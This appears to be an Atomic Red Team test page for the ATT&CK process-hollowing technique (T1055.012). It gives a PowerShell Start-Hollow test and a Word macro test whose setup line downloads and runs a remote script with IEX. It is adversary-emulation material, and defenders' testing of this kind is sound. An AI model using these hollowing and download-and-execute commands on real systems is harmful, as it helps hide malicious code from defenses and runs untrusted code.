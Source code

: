 # T1055.012 - Process Injection: Process Hollowing
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1055/012)
<blockquote>Adversaries may inject malicious code into suspended and hollowed processes in order to evade process-based defenses. Process hollowing is a method of executing arbitrary code in the address space of a separate live process.  

Process hollowing is commonly performed by creating a process in a suspended state then unmapping/hollowing its memory, which can then be replaced with malicious code. A victim process can be created with native Windows API calls such as <code>CreateProcess</code>, which includes a flag to suspend the processes primary thread. At this point the process can be unmapped using APIs calls such as <code>ZwUnmapViewOfSection</code> or <code>NtUnmapViewOfSection</code>  before being written to, realigned to the injected code, and resumed via <code>VirtualAllocEx</code>, <code>WriteProcessMemory</code>, <code>SetThreadContext</code>, then <code>ResumeThread</code> respectively.(Citation: Leitch Hollowing)(Citation: Elastic Process Injection July 2017)

This is very similar to [Thread Local Storage](https://attack.mitre.org/techniques/T1055/005) but creates a new process rather than targeting an existing process. This behavior will likely not result in elevated privileges since the injected process was spawned from (and thus inherits the security context) of the injecting process. However, execution via process hollowing may also evade detection from security products since the execution is masked under a legitimate process. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Process Hollowing using PowerShell](#atomic-test-1---process-hollowing-using-powershell)

- [Atomic Test #2 - RunPE via VBA](#atomic-test-2---runpe-via-vba)


<br/>

## Atomic Test #1 - Process Hollowing using PowerShell
This test uses PowerShell to create a Hollow from a PE on disk with explorer as the parent.
Credit to FuzzySecurity (https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Start-Hollow.ps1)

**Supported Platforms:** Windows


**auto_generated_guid:** 562427b4-39ef-4e8c-af88-463a78e70b9c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| hollow_binary_path | Path of the binary to hollow (executable that will run inside the sponsor) | String | C:&#92;Windows&#92;System32&#92;cmd.exe|
| parent_process_name | Name of the parent process | String | explorer|
| sponsor_binary_path | Path of the sponsor binary (executable that will host the binary) | String | C:&#92;Windows&#92;System32&#92;notepad.exe|
| spawnto_process_name | Name of the process to spawn | String | notepad|


#### Attack Commands: Run with `powershell`! 


```powershell
. $PathToAtomicsFolder\T1055.012\src\Start-Hollow.ps1
$ppid=Get-Process #{parent_process_name} | select -expand id
Start-Hollow -Sponsor "#{sponsor_binary_path}" -Hollow "#{hollow_binary_path}" -ParentPID $ppid -Verbose
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "#{spawnto_process_name}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - RunPE via VBA
This module executes notepad.exe from within the WINWORD.EXE process

**Supported Platforms:** Windows


**auto_generated_guid:** 3ad4a037-1598-4136-837c-4027e4fa319b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-MalDoc -macroFile "PathToAtomicsFolder\T1055.012\src\T1055.012-macrocode.txt" -officeProduct "#{ms_product}" -sub "Exploit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
